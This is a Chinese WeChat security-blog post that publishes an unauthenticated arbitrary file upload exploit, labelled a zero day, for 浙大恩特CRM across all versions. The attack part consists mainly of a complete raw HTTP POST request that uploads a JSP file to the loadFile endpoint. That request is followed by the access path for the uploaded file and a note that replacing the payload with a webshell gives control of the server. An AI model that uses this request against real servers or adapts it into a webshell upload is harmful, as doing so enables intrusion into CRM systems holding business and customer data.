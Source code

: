 #  某大型CRM前台任意文件上传（最新zero day）

原创 凯撒安全实验室  [ 凯撒安全实验室 ](javascript:void\(0\);)

**凯撒安全实验室** ![]()

微信号 SecueKaiser

功能介绍 Secure
Kaiser安全团队成立于2021年7月，是一个对网安事业充满热忱和奉献精神的团队，团队致力于红蓝对抗、CTF、漏洞挖掘、渗透测试，在众多国家级、省市级CTF比赛中名列前茅。

____

___发表于_

收录于合集

**0x01  阅读须知**

**凯撒安全实验室的技术文章仅供参考，此文所提供的信息只为网络安全人员对自己所负责的网站、服务器等（包括但不限于）进行检测或维护参考，未经授权请勿利用文章中的技术资料对任何计算机系统进行入侵操作。利用此文所提供的信息而造成的直接或间接后果和损失，均由使用者本人负责。
本文所提供的工具仅用于学习，禁止用于其他！！！**

 **0x02 漏洞原理**

浙大恩特CRM是由浙江大学恩智浙大科技有限公司推出的客户关系管理（CRM）系统。该系统旨在帮助企业高效管理客户关系，提升销售业绩，促进市场营销和客户服务的优化。系统支持客户数据分析和报表展示，帮助企业深度挖掘客户数据，提供决策参考。通过浙大恩特CRM系统，企业可以更好地管理客户关系，提升销售绩效，提高客户满意度，实现业务增长和持续发展。
**本文将复现该漏洞的利用方法。**

 ****

![]()

 **0x03 漏洞利用**

影响版本：

浙大恩特CRM全版本

 **漏洞利用点为：**

/entsoft/CustomerAction.entphone;.js?method=loadFile
**接口，当访问接口时出现如下响应体时，可认定该漏洞存在。**

![]()

 **exp：**

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
     POST /entsoft/CustomerAction.entphone;.js?method=loadFile HTTP/1.1Host: xxxxxxxxUpgrade-Insecure-Requests: 1User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.0.0 Safari/537.36Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed exchange;v=b3;q=0.9Accept-Encoding: gzip, deflateAccept-Language: zh-CN,zh;q=0.9Content-Type: multipart/form-data; boundary=----WebKitFormBoundarye8FPHsIAq9JN8j2AContent-Length: 208  
    ------WebKitFormBoundarye8FPHsIAq9JN8j2AContent-Disposition: form-data; name="file";filename="xx.jsp"Content-Type: image/jpeg  
    <%out.print("hello world");%>------WebKitFormBoundarye8FPHsIAq9JN8j2A--  
    

 **打入exp  **

![]()

 **访问** **/url/enterdoc/gesnum/xxxxxx/photo/xxxx.jsp**

![]()

  同理 将poyload换成webshell马 可获取服务器权限：

![]()

关注公众号带你了解更多0/1day漏洞

零日/一日 漏洞探讨加 Seven_-0928  

本实验室接受正规站点的授权渗透测试服务。

如你的公司业务有Web渗透测试，ctf比赛，高级渗透测试，红蓝对抗，黑客溯源，Java代码审计等需求可联系以下微信进行商务洽谈：Xud330327

![]()

  

预览时标签不可点

微信扫一扫  
关注该公众号

轻触阅读原文

继续滑动看下一个

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

